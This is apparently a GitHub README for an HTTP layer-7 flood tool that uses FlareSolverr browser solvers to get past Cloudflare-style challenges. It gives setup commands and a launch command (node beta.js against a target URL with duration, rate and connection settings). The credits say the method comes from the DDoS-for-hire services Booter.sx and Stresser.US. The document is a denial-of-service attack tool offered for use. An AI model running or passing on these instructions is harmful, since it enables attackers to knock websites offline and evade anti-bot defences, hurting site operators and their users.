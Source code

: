 # http-browser
HTTP Browser method using FlareSolverr



sh install.sh

unzip solvers.zip

install the other depedencies as the script asks with 'npm i name'

cd solvers/flaresolver01; export PUPPETEER_PRODUCT=firefox; npm install

cd solvers/flaresolver02; export PUPPETEER_PRODUCT=firefox; npm install

cd solvers/flaresolver03; export PUPPETEER_PRODUCT=firefox; npm install

cd solvers/flaresolver04; export PUPPETEER_PRODUCT=firefox; npm install

cd solvers/flaresolver05; export PUPPETEER_PRODUCT=firefox; npm install

cd solvers/flaresolver06; export PUPPETEER_PRODUCT=firefox; npm install

cd solvers/flaresolver07; export PUPPETEER_PRODUCT=firefox; npm install

cd solvers/flaresolver08; export PUPPETEER_PRODUCT=firefox; npm install

cd solvers/flaresolver09; export PUPPETEER_PRODUCT=firefox; npm install

cd solvers/flaresolver10; export PUPPETEER_PRODUCT=firefox; npm install

python start_solvers.py

run the method 

node beta.js "https://website.com" 600 64 GET --mode browser --geo all --conn 32


Method hacked from Booter.sx, released by Stresser.US - method updated and upgraded to HTTP/2 by forky and WeAreRainBowHAT

Hacked by T13R and forky
